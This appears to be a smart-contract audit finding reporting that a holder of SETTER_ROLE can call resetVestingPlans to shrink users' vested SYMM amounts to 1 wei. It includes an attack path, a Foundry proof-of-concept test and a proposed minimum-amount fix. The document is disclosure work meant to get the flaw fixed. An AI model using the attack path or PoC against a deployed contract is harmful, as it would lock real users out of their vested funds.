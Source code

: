 Blurry Peach Shell

Medium

# Griefing Attack via resetVestingPlans Locks Users Out of Vested Tokens

### Summary

The lack of constraints on resetVestingPlans will cause a severe disruption for users as an attacker with SETTER_ROLE will reduce vesting amounts to near-zero, effectively locking users out of meaningful claims and undermining trust in the protocol.



### Root Cause

in Vesting.sol:220, the resetVestingPlans function allows SETTER_ROLE to arbitrarily adjust vesting amounts for multiple users, checking only that amount >= unlockedAmount() but not enforcing a minimum threshold, enabling an attacker to set amounts to negligible values (e.g., 1 wei).



### Internal Pre-conditions

An attacker needs to gain control of SETTER_ROLE to call resetVestingPlans and modify vesting plans.

Users need to have vesting plans set up via setupVestingPlans to set vestingPlans[token][user].amount to be at least 1 SYMM token, providing targets for the attack.

The vesting period needs to be ongoing or partially completed to set vestingPlans[token][user].lockedAmount() to be greater than 0, ensuring there are unclaimed tokens to grief.



### External Pre-conditions

None required, as this issue relies solely on internal contract logic and role compromise, not external protocol changes.



### Attack Path

Attacker compromises SETTER_ROLE through phishing, governance exploit, or admin key theft.

Attacker identifies all active vesting plans by querying vestingPlans[token][user] off-chain for multiple users and tokens.

Attacker calls resetVestingPlans(token, users, amounts) with an array of users and sets each amount to 1 wei (e.g., resetVestingPlans(SYMM, [user1, user2], [1, 1])).

The contract claims any unlocked tokens via _claimUnlockedToken for each user, then resets the vesting plan to 1 wei, satisfying the amount >= unlockedAmount() check since unlocked amounts are already claimed.

Users attempt to claim remaining vested tokens via claimUnlockedToken or claimLockedToken, but find their vesting plans reduced to 1 wei, rendering further claims negligible and effectively locking them out until corrected.



### Impact

The users suffer an approximate loss of access to 99.9999% of their vested tokens (e.g., reducing 1M SYMM to 1 wei), severely disrupting their ability to claim funds. The attacker gains no direct financial benefit but causes significant harm to protocol reputation and user trust.



### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.18;

import "forge-std/Test.sol";
import "./Vesting.sol";

contract VestingGriefingTest is Test {
    Vesting vesting;
    address attacker = address(0x1);
    address user1 = address(0x2);
    address user2 = address(0x3);
    address token = address(0x4);
    address penaltyReceiver = address(0x5);

    function setUp() public {
        vesting = new Vesting();
        vesting.__vesting_init(address(this), 0.5e18, penaltyReceiver); // 50% penalty
        vesting.grantRole(vesting.SETTER_ROLE(), attacker);

        // Setup vesting plans for users
        address[] memory users = new address[](2);
        users[0] = user1;
        users[1] = user2;
        uint256[] memory amounts = new uint256[](2);
        amounts[0] = 1_000_000 * 1e18; // 1M SYMM
        amounts[1] = 500_000 * 1e18;  // 500K SYMM
        vesting.setupVestingPlans(token, block.timestamp, block.timestamp + 180 days, users, amounts);

        // Fund contract
        deal(token, address(vesting), 1_500_000 * 1e18);
    }

    function testGriefingResetVestingPlans() public {
        // Warp 1 month into vesting (1/6 of period)
        vm.warp(block.timestamp + 30 days);

        // Attacker resets vesting plans to 1 wei
        vm.startPrank(attacker);
        address[] memory users = new address[](2);
        users[0] = user1;
        users[1] = user2;
        uint256[] memory amounts = new uint256[](2);
        amounts[0] = 1; // 1 wei
        amounts[1] = 1; // 1 wei
        vesting.resetVestingPlans(token, users, amounts);
        vm.stopPrank();

        // Check user1's remaining claimable amount
        vm.startPrank(user1);
        uint256 claimable = vesting.getClaimableAmountsForToken(user1, token);
        console.log("User1 claimable after reset:", claimable);
        assertEq(claimable, 0, "User1 should have negligible claimable amount");
        vm.stopPrank();

        // Check user2's remaining claimable amount
        vm.startPrank(user2);
        claimable = vesting.getClaimableAmountsForToken(user2, token);
        console.log("User2 claimable after reset:", claimable);
        assertEq(claimable, 0, "User2 should have negligible claimable amount");
        vm.stopPrank();
    }
}
```

### Mitigation

Add Minimum Vesting Amount Constraint:
Introduce a minimum vesting amount to prevent negligible resets:

```solidity

uint256 public constant MIN_VESTING_AMOUNT = 1e18; // 1 SYMM minimum

function _resetVestingPlans(address token, address[] memory users, uint256[] memory amounts) internal {
    if (users.length != amounts.length) revert MismatchArrays();
    uint256 len = users.length;
    for (uint256 i = 0; i < len; i++) {
        address user = users[i];
        uint256 amount = amounts[i];
        require(amount >= MIN_VESTING_AMOUNT, "Vesting amount too low");
        _claimUnlockedToken(token, user);
        VestingPlan storage vestingPlan = vestingPlans[token][user];
        if (amount < vestingPlan.unlockedAmount()) revert AlreadyClaimedMoreThanThis();
        uint256 oldTotal = vestingPlan.lockedAmount();
        vestingPlan.resetAmount(amount);
        totalVested[token] = totalVested[token] - oldTotal + amount;
        emit VestingPlanReset(token, user, amount);
    }
}

```
